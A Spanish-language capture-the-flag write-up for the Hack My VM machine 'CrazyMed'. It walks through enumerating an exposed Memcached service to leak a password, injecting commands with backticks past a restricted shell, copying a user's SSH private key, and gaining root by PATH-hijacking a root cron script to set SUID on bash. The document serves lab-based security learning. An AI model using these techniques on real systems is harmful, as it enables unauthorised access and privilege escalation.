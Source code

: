 ```yaml
---
layout: post
title: CrazyMed
date: 2022-11-25
categories: ["HMV", "MemCached", "Path Hijacking"]
thumbnail: "assets/images/CrazyMed.png"
---
```


# CrazyMed [ Hack My VM ]

## Reconocimiento

**Descubrimiento de puertos y reconocimiento básico**
- `nmap -sS --min-rate 5000 192.168.1.107 -oG allPorts`
- `nmap -sCV -p80,4444,11211 192.168.1.107 -oN targeted`

No vemos nada interesante, sigamos investigando.

## Shell

Si nos conectamos con `NC` por el puerto `4444` veremos un panel que nos da la bienvenida, pero nos pide una contraseña que no tenemos, así que por el momento lo dejamos.

Vemos un puerto algo extraño abierto, `11211`, el cual pertenece a `MemCached`, un almacén de datos de la memoria. Vamos a ver si nos podemos conectar y obtener datos. Para ello utilizaré primero una herramienta llamada `memcdump` para ver los `items` disponibles:

- `apt install libmemcached-tools`
- `memcdump --server=192.168.1.107`

```
domain
server
log
conf_location
```
Bien! Vemos que hemos sido capaces de enumerar `items`, ahora podemos obtener su contenido con `memccat`, para ello haremos lo siguiente:

- `memccat --servers=192.168.1.107 log`

```
password: cr4zyM3d
```

Bien! Hemos sido capaces de obtener una contraseña! Ahora nos podemos conectar por el puerto `4444` con `NC` y con la contraseña encontrada para obtener acceso. Una vez ahí veremos que sólo podremos ejecutar cuatro comandos: `id`, `who`, `echo` y `clear`.

Tras varios intentos para saltarme la verificación del input y poder ejecutar más comandos llegué al acento grave (``` `` ```), gracias a esto podemos ejecutar más comandos de los permitidos.

- ```System command: echo `python3 --version` ```

```
Python 3.9.
```
Fantástico! Tras mirar el directorio con ls -la vi una carpeta llamada .ssh, por lo
que me metí dentro y había un archivo llamado id_rsa, por lo que con cat lo miré y
me lo copié a mi máquina para obtener una Shell siempre que quiera sin proporcionar
contraseña.

Bien! Ya estamos dentro de la máquina como brad!


## Subida de privilegios

Para obtener `root` en la máquina comencé por enumeración básica, la cual no sirvió de mucho, pero [`LinPEAS`](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) me chivó que tenía permisos de escritura en `/usr/local/bin`, por lo que ya es algo interesante.

Me dispuse a ver los procesos en curso con `PSPY` y cada minuto se ejecutaba un proceso por el usuario `root`, el cual ejecutaba con Bash un `script` llamado `check_VM` situado en `/opt/`. Vamos a hecharle un ojo:

```
#! /bin/bash

#users flags
flags=(/root/root.txt /home/brad/user.txt)
for x in "${flags[@]}"
do
if [[ ! -f $x ]] ; then
echo "$x doesn't exist"
mcookie > $x
chmod 700 $x
fi
done

chown -R www-data:www-data /var/www/html

#bash_history => /dev/null
home=$(cat /etc/passwd |grep bash |awk -F: '{print $6}')

for x in $home
do
ln -sf /dev/null $x/.bash_history ; eccho "All's fine !"
done


find /var/log -name "*.log*" -exec rm -f {} +
```
Vemos que el binario chown se ejecuta de forma relativa y no absoluta, por lo que podemos hacer `Path Hijacking`. Para poder explotarlo nos dirigiremos a `/usr/local/bin/` y crearemos un archivo llamado `chown` con la siguiente instrucción:

- `echo "chmod u+s /bin/bash" > chown`

Una vez creado el archivo le damos permisos de ejecución con: `chmod +x chown` y esperamos unos segundos a que se vuelva a ejecutar la tarea. Una vez esperado hacemos `bash -p`.

Enhorabuena! Ya estamos como `root` en la máquina víctima de forma sencilla!
